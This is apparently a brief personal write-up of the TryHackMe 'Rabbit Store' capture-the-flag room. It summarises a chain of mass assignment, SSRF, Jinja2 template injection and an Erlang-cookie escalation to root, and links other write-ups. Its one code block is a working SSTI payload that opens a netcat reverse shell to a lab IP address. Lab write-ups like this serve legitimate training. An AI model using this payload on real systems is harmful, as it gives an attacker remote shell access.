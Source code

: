 
2025-04-03 14:44

Source: #Boot2root 
# TL;DR

**Rabbit Store** started with exploiting a **mass assignment vulnerability** to register an activated account, granting access to an API endpoint vulnerable to **SSRF**. Leveraging this **SSRF** vulnerability, we accessed the **API** documentation and discovered another endpoint vulnerable to **SSTI**, which we exploited to achieve **RCE** and gain a shell.

After obtaining a shell, we retrieved the **Erlang cookie**, which allowed us to enumerate the **RabbitMQ** instance and discover the password for the **root** user
# Real deal 


Jinja [[SSTI]] 
```json
{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.62.140 1234 >/tmp/f').read() }}"}

```





### References
[TryHackMe | Rabbit Store](https://tryhackme.com/room/rabbitstore)

[Flask Jinja2 Pentesting | Exploit Notes](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/)
[Rabbit Store | THM Writeup :: CyberJagadeesh - Learn Cyber Security](https://cyberjagadeesh.github.io/posts/thm/rabbitstore/writeup/)
[Reverse Shelling via Jinja2 SSTI using ngrok | by V!hanga D | Medium](https://medium.com/@dvihanga32/reverse-shell-via-jinja2-ssti-using-ngrok-514f6641b2ee)
https://www.rapid7.com/db/modules/exploit/multi/misc/erlang_cookie_rce/
https://jaxafed.github.io/posts/tryhackme-rabbit_store/#shell-as-root